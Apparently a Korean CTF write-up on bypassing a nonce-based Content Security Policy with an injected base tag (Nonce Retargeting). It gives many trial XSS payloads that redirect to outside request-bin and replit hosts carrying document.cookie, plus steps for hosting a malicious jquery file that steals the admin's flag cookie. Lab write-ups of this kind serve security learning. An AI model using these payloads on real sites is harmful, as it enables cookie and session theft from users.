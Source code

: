 만약 페이지에 임의 마크업을 삽입할 수 있는 취약점이 있지만, nonce CSP 구문으로 인해 스크립트를 삽입할 수 없다고 
가정합니다. 이 때, base-uri CSP 구문을 지정하지 않은 경우 Figure8과 같이 base 태그를 이용하여 임의 자원을 로드할 
수 있습니다. 이와 같은 형태의 공격을 Nonce Retargeting 이라고 부릅니다.

Figure 8. base 태그를 이용한 임의 자원 업로드

<base href="https://malice.test">
<script src="/jquery.js" nonce=NONCE> 
<!-- jquery.js는 base 태그에 의해 https://malice.test/jquery.js를 가리킵니다. --

해당되는 내용이 이건데?? 
=>https://csp-evaluator.withgoogle.com/에서 검증해보면 base-uri가 지정되어 있지 않다고 경고 표시가 뜬다. 
따라서 이 부분이 공격포인트라는 것을 알 수 있다. 

<base href="https://LateCanineRecursion.ylogic.repl.co">

location.href="'http://localhost:8000/memo?memo='+document.cookie"; 
location.href="'http://localhost:8000/memo?memo='%2bdocument.cookie"; 
alert(location.href="'https://kabghww.request.dreamhack.games/memo?memo='%2bdocument.cookie");
alert(location.href="'https://kabghww.request.dreamhack.games/memo?memo='+document.cookie");
alert(location.href="https://kabghww.request.dreamhack.games/memo?memo='%2bdocument.cookie'");

<base href="https://WarlikeUnknownQuadrants.ylogic.repl.co">
<script src="/vuln?param=<base href="https://WarlikeUnknownQuadrants.ylogic.repl.co">"></script>
<base href="https://WarlikeUnknownQuadrants.ylogic.repl.co">;</script><script>location.href="'http://localhost:8000/memo?memo='+document.cookie"</script>
<base href="https://WarlikeUnknownQuadrants.ylogic.repl.co">;<script>location.href="'http://localhost:8000/memo?memo='+document.cookie"</script>
<base href="https://WarlikeUnknownQuadrants.ylogic.repl.co">;</script><script>location.href="'http://localhost:8000/memo?memo='%2bdocument.cookie"</script>
?page=vuln&param=<base href="https://WorriedIncomparablePagerecognition.ylogic.repl.co">;</script><script>location.href="https://mtfngga.request.dreamhack.games?cookie="%2bdocument.cookie</script>

a onmouseover = "alert(location.href="'https://kabghww.request.dreamhack.games/memo?memo='%2bdocument.cookie")";
a onmouseover = "alert(location.href="'https://kabghww.request.dreamhack.games/memo?memo='+document.cookie")";

replit으로 html, js 서버를 열어준다 
static/js/jquery.min.js 로 경로를 만들어준다음 
index.html에 <script src="static/js/jquery.min.js"></script> 이 내용을 추가하여 js를 연동시킨다. 
js에 location.href = "https://cggprwk.request.dreamhack.games/?memo=" + document.cookie; 이것만 쓴다. 
alert이나 a onmouseover등은 필요 없다. 그냥 이 내용만 써도 자바스크립트가 충분히 작동한다. 
그리고 해당 웹 url을 <base href="https://LateCanineRecursion.ylogic.repl.co"> 이렇게 추가한 다음 
flag에서 Submit으로 보낸다. vuln에는 해당 쿠키가 없기 때문에 자바스크립트를 주입하여 실행시킬 수는 있지만 
해당 플래그 쿠키를 가져올 수는 없다. 관리자만 가지고 있으므로 submit을 통해 report를 해주는 것이 중요하다. 
